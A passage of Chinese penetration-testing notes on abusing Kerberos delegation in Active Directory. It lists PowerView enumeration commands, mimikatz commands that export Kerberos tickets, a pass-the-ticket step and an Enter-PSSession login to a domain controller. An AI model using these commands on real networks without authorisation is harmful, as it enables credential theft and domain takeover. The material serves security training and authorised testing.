   ### 账户非受限委派
	设置用户y为服务账户(服务账户有委派权限)
	>setspn -U -A variant/golden y
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/398.png)

	查询非受限委派域内账号，使用powerview
	>Get-NetUser -Unconstrained -Domain zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/399.png)

	利用
	管理员权限打开mimikatz导出TGT
	>privilege::debug
	>sekurlsa::tickets /export
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/400.png)

	清空票据，导入票据
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/401.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/402.png)

	获得Powershell会话
	> Enter-PSSession -ComputerName dc.zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/403.png)
  ### 账户受限委派
	查询受限委派用户
	> Get-DomainUser -TrustedToAuth –Domain zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/404.png)

	查询受限委派主机
	> Get-DomainComputer -TrustedToAuth -Domain zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/405.png)
	
	利用方法后见权限维持模块
